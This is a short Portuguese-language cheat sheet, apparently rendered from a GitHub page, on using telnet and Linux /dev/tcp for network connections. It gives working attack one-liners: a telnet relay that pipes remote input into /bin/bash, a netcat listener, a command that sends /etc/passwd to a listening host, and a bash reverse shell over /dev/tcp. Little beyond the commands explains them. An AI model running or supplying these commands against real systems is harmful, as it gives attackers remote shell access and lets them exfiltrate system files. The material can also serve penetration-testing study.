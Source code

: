 # Telnet

---

O serviço Telent, também pode ser utilizado como um Swiss Army Knife para conexões de rede, podendo ser utilizado para interagir com serviços, assim como os anteriores.

Usage:

```bash
telnet (ip da maquina escutando) (porta sendo usada) | /bin/bash | telnet (ip da maquina) (outra porta)
# foi utilizado duas portas, uma para a conexão em si e outra para a parte "gráfica"
# o resultado dos comandos digitados
```

# /DEV/TCP
---

Método presente nas máquinas Linux para enviar uma comunicação tcp por forma de um socket TCP

Usage:

```bash
#Máquina escutando
nc -lvnp 2020

#Máquina que vai enviar os dados via tcp
echo "Olá" > /dev/tcp/(ip da máquina escutando)/(porta que foi configurada)
cat /etc/passwd > /dev/tcp/(ip)/(porta)

#shell reversa
bash -i > /dev/tcp/(ip)/(porta) 0>&1 2>&1

# 0>&1 e 0>&2 usados para enviar todas as saidas e erros dos comandos
# para a conexão
```
